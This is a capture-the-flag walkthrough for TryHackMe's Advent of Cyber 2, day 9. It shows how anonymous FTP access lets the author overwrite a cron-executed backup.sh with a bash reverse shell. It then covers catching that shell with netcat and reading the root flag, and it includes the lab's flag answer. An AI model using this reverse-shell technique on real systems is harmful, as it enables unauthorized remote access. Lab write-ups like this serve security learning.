



# Advent of cyber 2 | day 9 | Anyone can be Santa!

> Tal Baraz

-----

For me the ip for the machine was: `10.10.91.82` it'll probably be diffrent for you.

## Question #1
*Name the directory on the FTP server that has data accessible by the "anonymous" user*

Just connecting to the FTP server with the username: `anonymous` grants us access
```bash
ftp 10.10.91.82
```

running `ls` we get this:


as we can see everyone can access `public` indicated by `drwxrwxrwx` premmitons, so that's our answer: `public`

## Question #2
*What script gets executed within this directory?*

As we can see there are 4 directories:
- backups
- elf_workshops
- human_resources
- public

However other then `public` all other directories are empty (We can see that with the `ls` and seeing the size of the dirctories)

Hoping into public with `cd public`:



We see 2 files
- backup.sh
- shoppinglist.txt

`backup.sh` is a shell script so that's our answer.

## Question #3
*What movie did Santa have on his Christmas shopping list?*

We can get both files using
```bash 
get backup.sh
get shoppinglist.txt
```
Inside the public directory

the contents of `shoppinglist.txt` are:
```
The Polar Express Movie
```
So the answer is `The Polar Express`


## Question #4
*Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!*

The contents of `backup.sh` are:
```bash 
#!/bin/bash

# Created by ElfMcEager to backup all of Santa's goodies!

# Create backups to include date DD/MM/YYYY
filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

# Backup FTP folder and store in elfmceager's home directory
tar -zcvf /home/elfmceager/$filename /opt/ftp

# TO-DO: Automate transfer of backups to backup server
```
Because we know this scriping is running every minute we can replace it contents with a reverse shell

I am going to use the reserve shell they showed above
```bash
bash -i >& /dev/tcp/{my_ip}/{port_to_connetct to} 0>&1 
```
We can get our IP with:
```bash
ip a s tun0
```
- Note: `ip a s tun0` is `ip adress show tun0`



So for me it's gonna look like this
```bash
bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

Not forgeting to add the shabang line on top: `#!/bin/bash`

So I made a copy of backup.sh with the contents of:
```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.222.253/9001 0>&1 
```

And now I am going to open a listener on port `9001` with this:
```bash
nc -lnvp 9001
```

And reuplod `backup.sh` with my changes and wait for a connetion

And after a minute or so, Jackpot we're in :P



And so we can get `/root/flag.txt`


So our answer is of course:
```
THM{even_you_can_be_santa}
```

